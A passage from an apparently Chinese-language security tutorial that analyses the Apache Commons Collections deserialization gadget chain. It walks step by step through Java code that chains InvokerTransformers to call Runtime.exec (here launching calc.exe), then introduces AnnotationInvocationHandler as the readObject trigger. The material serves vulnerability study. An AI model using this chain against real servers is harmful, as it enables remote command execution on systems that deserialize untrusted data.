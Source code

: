 ```java
        };
           //将transformers数组存入ChaniedTransformer这个继承类
            Transformer transformerChain = new ChainedTransformer(transformers);
            //创建Map并绑定transformerChina
            Map innerMap = new HashMap();
            innerMap.put("key", "value");
            //给予map数据转化链
            Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
            //触发漏洞
            outerMap.put("test", "xxxx");
}
```
分析下几个循环
**第一个循环**
```java
new ConstantTransformer(Runtime.class)
```
直接返回传入的Runtime.class对象
**第二个循环**
```java
new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Object[0]})
```
传入的input为一个循环返回的Runtime.class对象，getClass方法返回一个Class对象，之后用getMethod方法调用Class对象的getMethod方法，可以看成是反射调用反射。返回java.lang.Runtime.getRuntime()，接下来是调用这个方法对象。
**第三个循环**
```java
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]})
```
因为input是一个方法java.lang.Runtime.getRuntime()，所以getClass方法返回的是一个Method对象，之后获取Method对象的invoke方法，最后相当于是invoke.invoke(java.lang.Runtime.getRuntime,null)，返回了一个Runtime实例化对象。
**第四个循环**
```java
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
```
input的是Runtime的对象,所以getClass方法返回就是Runtime.class的对象，回到最初的反射调用，命令执行成功。


###  2.6.2 问题二
触发这个漏洞的核心，在于当对Map进行一些操作时，会自动触发Transformer实现类的tranform()方法。在上面的代码中，我们是人为执行outerMap.put("test", "xxxx")来触发漏洞，在服务器的后台开发人员不可能为我们写好一个outerMap.put("test", "xxxx")来触发该漏洞。因此在实际反序列化时，我们需要找到一个类，它在反序列化的readObject逻辑里有类似的写入、修改等操作来触发该链
替代 ==outerMap.put("test", "xxxx")== 达到攻击的效果。完美的反序列化漏洞还需要一个readobject复写点，使只要服务端执行了readObject函数就等于命令执行。

我们发现 **AnnotationInvocationHandler**类具有这个效果
**我们来仔细看看sun.reflect.annotation.AnnotationInvocationHandler**
**1、构造方法**
![image.png](http://moonsec.top/articlepic/ca8f1eefa52b85c91643c0a259f6676b.png)
```java
AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
    Class[] var3 = var1.getInterfaces();
    if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {//var1满足这个if条件时
        this.type = var1;//传入的var1到this.type
        this.memberValues = var2;//我们的map传入this.memberValues
    } else {
        throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
    }
}
```
